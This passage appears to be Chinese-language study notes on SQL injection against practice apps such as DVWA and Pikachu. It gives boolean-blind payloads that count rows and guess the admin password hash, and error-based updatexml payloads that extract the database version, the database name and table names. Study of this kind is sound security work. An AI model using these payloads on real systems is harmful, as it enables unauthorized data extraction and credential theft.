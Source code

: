

password字段的数据个数

```mysql
1’ and (select count(password) from users)=5 #
```

使用md5加密猜解太麻烦

方式①：用二分法依次猜解user/password字段中每组字段值的每个字符组成

方式②：利用日常积累经验猜测+运气，去碰撞完整字段值的全名

```mysql
1' and (select count(*) from users where user='admin')=1 #
```

如果成功，则证明数据库有一个用户admin

password的md5值是`5f4dcc3b5aa765d61d8327deb882cf99`如果下面代码执行成功，则代表admin的密码是password

```mysql
1’ and (select count(*) from users where user=‘admin’ and password=‘5f4dcc3b5aa765d61d8327deb882cf99’)=1 #
```

### sql报错注入

```html
updatexml(xml_doument,XPath_string,new_value)
第一个参数：XML的内容
第二个参数：是需要update的位置XPATH路径
第三个参数：是更新后的内容
所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合XPATH格式
```

简单例子，出现 数据库版本。

```mysql
qq' and updatexml(1,concat(0x7e,version()),1)#
0x7e用来校验，version()是我们想要的数据，concat用来连接它们两个
0x7e不是固定的，只要能校验，填什么都行
```

#### 数据库名字

```mysql
payload:kobe' and updatexml(1,concat(0x7e,database()),0)#
```

##### 获取表名

```mysql
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#
```

#### 若是超过一个表，则可以使用limit一个一个获取

```
pyaload:kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)),0)#
```
